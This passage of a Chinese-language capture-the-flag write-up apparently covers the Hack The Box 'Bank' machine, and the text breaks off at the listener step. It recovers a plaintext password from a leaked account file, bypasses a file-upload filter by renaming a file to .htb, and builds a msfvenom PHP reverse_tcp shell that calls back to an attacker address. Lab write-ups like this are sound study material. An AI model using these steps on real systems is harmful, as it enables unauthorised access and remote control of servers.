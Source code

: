 ```

有一个字数短了一大半，查看这个文件


```
┌──(root💀kali)-[~/htb/bank]
└─# curl http://bank.htb/balance-transfer/68576f20e9732f1b2edc4df5b8533230.acc
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===

```


```--ERR ENCRYPT FAILED```表明加密失败，露出了明文密码

使用这个密码在首页登陆，顺利进入后台


在support页面有一个上传文件功能

查看网页源代码发现这一句

```
[DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG]
```

看来只需要把php后缀换成htb就可以绕过

编译一个php马
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.16.3 LPORT=4444 -f raw > shell.php
```

换成htb后缀
```
mv shell.php shell.htb 
```

上传，点击，拿到立足点
```
msf6 exploit(multi/handler) > run
